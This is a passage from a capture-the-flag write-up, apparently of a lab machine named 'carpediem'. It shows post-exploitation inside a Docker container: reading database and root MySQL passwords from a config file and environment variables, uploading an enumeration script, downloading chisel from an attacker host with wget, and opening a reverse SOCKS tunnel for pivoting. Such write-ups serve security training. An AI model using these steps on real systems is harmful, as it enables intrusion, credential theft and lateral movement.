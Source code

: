 ```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
3c371615b7aa
```


### Step 3
Enumerate the victim machine and we can start by looking for SQL credentials.
```bash
www-data@3c371615b7aa:/var/www/html/portal/classes$ cat DBConnection.php
<?php
if(!defined('DB_SERVER')){
    require_once("../initialize.php");
}
class DBConnection{

    private $host = 'mysql';
    private $username = 'portaldb';
    private $password = 'J5tnqsXpyzkK4XNt';
    private $database = 'portal';
```

Looking around further we can see we're in a container. Upload `deepce.sh` to enumerate and it gives little to no info.. 
```bash
www-data@3c371615b7aa:/dev/shm$ bash deepce.sh
[... snip ...]
[+] Inside Container ........ Yes
[+] Container Platform ...... docker
[+] Container tools ......... None
[+] Docker Version .......... Version Unknown
[+] Dangerous Capabilities .. Unknown (capsh not installed)
[+] Privileged Mode ......... Unknown
[+] Useful tools installed .. Yes
/usr/bin/curl
/usr/bin/wget
/usr/bin/gcc
/bin/hostname
/usr/bin/python3
```

In `env` we find additional credentials:
```bash
www-data@3c371615b7aa:/$ ./usr/bin/env
MYSQL_PORT_33060_TCP_ADDR=172.17.0.3
MYSQL_PORT=tcp://172.17.0.3:3306
MYSQL_PORT_3306_TCP_ADDR=172.17.0.3
MYSQL_NAME=/portal/mysql
MYSQL_ENV_MYSQL_ROOT_PASSWORD=3dQXeqjMHnq4kqDv
MYSQL_PORT_3306_TCP_PORT=3306
```

Upload `chisel` to the docker and setup a tunnel so we can use proxychains and reach `172.17.0.3:3306`
Note that I wasn't able to execute the binary in `/dev/shm` and had to move to `/tmp`
```bash
## Setup chisel server locally
➜  carpediem cat /etc/proxychains4.conf
[... snip ...]
socks5	127.0.0.1 5000
➜  chisel_1.7.7 ./chisel_1.7.7_linux_amd64 server -p 4444 --reverse

## Connect with chisel client from victim
www-data@3c371615b7aa:/dev/shm$ wget http://10.10.14.10/chisel_1.7.7_linux_amd64
www-data@3c371615b7aa:/dev/shm$ chmod +x chisel_1.7.7_linux_amd64
www-data@3c371615b7aa:/tmp$ ./chisel_1.7.7_linux_amd64 client 10.10.14.10:4444 R:5000:socks

```